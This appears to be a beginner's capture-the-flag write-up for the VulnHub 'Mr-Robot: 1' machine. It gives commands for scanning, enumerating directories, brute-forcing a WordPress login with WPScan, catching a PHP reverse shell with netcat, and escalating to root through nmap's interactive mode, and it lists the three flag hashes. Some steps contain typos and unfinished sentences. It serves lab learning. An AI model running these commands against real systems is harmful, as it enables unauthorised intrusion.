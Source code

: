 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine  
 - Port 80 (HTTP) open -> Apache web server detected  
 - Port 443 (HTTPS) open  
 - Port 22 (SSH) open  
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster  
- /robots.txt -> contained the extension which led to the first flag as well as a dictionary  
- WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt  
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
- Obtained user-level shell access
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist  
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt  
 - We crack the hash to find the password for robot  
 - Now that we have the password we can login to the Mr.Robot and read .txt  
### 4. Privilege Escalation (Flag 3)
~~~
ls
cd home
cd robot
ls
~~~
- We find the file robot and whent we try to cat our access is denied.
~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~

~~~

which nmap
nmap --version
~~~
- We find nmap on the machine (a hit from the fact that it is a webserver) and review which version is running to find out if there are any known vulnerabilites.
- We find that they are running 
~~~
export TERM=xterm
nmap --interactive
!/bin/bash
id
whoami
exit
!sudo /bin/bash
!id
!whoami
!sh

~~~


---

## Flags Captured  
Flag 1: 073403c8a58a1f80d943455fb30724b9  
Flag 2: 822c73956184f694993bede3eb39f959  
Flag 3: 04787ddef27c3dee1ee161b21670b4e4  
---

## Lessons Learned
- Deploy password salting  
- Require login attempt limit for timeframes
- 
- 
---

## References
Mahcine on Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/
Video Tutorial: https://www.youtube.com/watch?v=D_aiSOmC6V8

